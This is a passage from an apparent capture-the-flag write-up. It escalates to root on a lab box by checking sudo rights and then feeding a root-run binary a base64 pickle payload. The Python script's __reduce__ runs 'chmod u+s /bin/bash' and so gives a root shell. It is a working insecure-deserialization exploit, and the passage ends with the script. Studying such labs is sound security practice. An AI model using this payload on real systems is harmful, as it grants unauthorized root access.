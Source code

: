 Perfect, now privesc to root let's check `sudo -l` :

```bash
dill@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for dill on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dill may run the following commands on ubuntu-xenial:
    (ALL : ALL) NOPASSWD: /opt/peak_hill_farm/peak_hill_farm
```

We can run this binary as root hm.. let's test what the binary does.

```bash
dill@ubuntu-xenial:~$ sudo /opt/peak_hill_farm/peak_hill_farm
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: 1337
this not grow did not grow on the Peak Hill Farm! :(
```

After i tried to execute a system command.

```bash
dill@ubuntu-xenial:~$ sudo /opt/peak_hill_farm/peak_hill_farm
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: whoami
failed to decode base64
```

Let's make a base64 string and submit it.

```bash
$ echo whoami | base64
d2hvYW1pCg==
```

```bash
dill@ubuntu-xenial:~$ sudo /opt/peak_hill_farm/peak_hill_farm
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: d2hvYW1pCg==
this not grow did not grow on the Peak Hill Farm! :(
```

Nothing again, i found this great resource [exploiting pickle](https://root4loot.com/post/exploiting_cpickle/)

I edited the exploit a bit :

```python
import cPickle
import base64
import sys
import os

#cmd = sys.argv[1]
cmd = "chmod u+s /bin/bash"

class MMM(object):
    def __reduce__(self):
    	return (os.system, (cmd,))

print(base64.b64encode(cPickle.dumps(MMM())))
```
